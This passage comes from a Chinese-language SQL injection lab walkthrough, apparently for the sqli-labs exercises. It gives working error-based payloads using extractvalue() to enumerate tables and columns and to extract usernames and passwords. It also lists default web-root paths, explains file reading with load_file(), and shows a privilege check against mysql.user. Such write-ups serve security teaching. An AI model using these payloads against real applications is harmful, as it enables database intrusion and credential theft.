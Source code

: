 ```
?id=1" and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x23))--+
```

爆列名

```
?id=1" and extractvalue(1,concat(0x23,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),0x23))--+
```

爆数据

```
?id=1" and extractvalue(1,concat(0x23,(select password from users order by id limit 0,1),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select username from users order by id limit 2,1),0x23))--+
```

# **Less-7** 

**GET - Dump into outfile - String （导出文件GET字符型注入）**



小扩展：

```
winserver的iis默认路径c:\Inetpub\wwwroot

linux的nginx一般是/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/html等

apache 就.../var/www/html，.../var/www/html/htdocs

phpstudy 就是...\PhpStudy20180211\PHPTutorial\WWW\

xammp 就是...\xampp\htdocs

load_file()导出文件

Load_file(file_name):读取文件并返回该文件的内容作为一个字符串。
```

使用条件：

```
A、必须有权限读取并且文件必须完全可读
and (select count(*) from mysql.user)>0/* 如果结果返回正常,说明具有读写权限。
and (select count(*) from mysql.user)>0/* 返回错误，应该是管理员给数据库帐户降权

B、欲读取文件必须在服务器上

C、必须指定文件完整的路径

D、欲读取文件必须小于max_allowed_packet
```
